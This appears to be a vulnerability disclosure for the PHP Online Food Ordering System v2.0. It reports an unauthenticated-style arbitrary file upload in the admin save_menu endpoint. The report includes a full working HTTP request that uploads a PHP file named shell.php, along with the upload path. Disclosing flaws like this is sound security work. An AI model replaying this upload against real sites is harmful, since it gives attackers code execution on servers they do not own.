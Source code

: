 # Online Food Ordering System v2.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: xtxxueyan

vendors: https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability url: ip/fos/admin/ajax.php?action=save_menu

Loophole location: Judging Management System's "/fos/admin/ajax.php?action=save_menu" file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /fos/admin/ajax.php?action=save_menu HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/fos/admin/index.php?page=menu
Content-Length: 808
Content-Type: multipart/form-data; boundary=---------------------------11146509511477
Cookie: PHPSESSID=iuka6rklteufkt7v952vs2g4eq
Connection: close

-----------------------------11146509511477
Content-Disposition: form-data; name="id"


-----------------------------11146509511477
Content-Disposition: form-data; name="name"

11
-----------------------------11146509511477
Content-Disposition: form-data; name="description"

1
-----------------------------11146509511477
Content-Disposition: form-data; name="status"

on
-----------------------------11146509511477
Content-Disposition: form-data; name="category_id"

1
-----------------------------11146509511477
Content-Disposition: form-data; name="price"

111
-----------------------------11146509511477
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------11146509511477--
```

The files will be uploaded to this directory \fos\assets\img
![image](https://user-images.githubusercontent.com/54017627/218389623-a23284f3-4146-4fb6-9fb6-b10ce0524040.png)

We visited the directory of the file in the browser and found that the code had been executed


![image](https://user-images.githubusercontent.com/54017627/218390781-bec3485c-49fe-4096-9a5f-1702af712438.png)
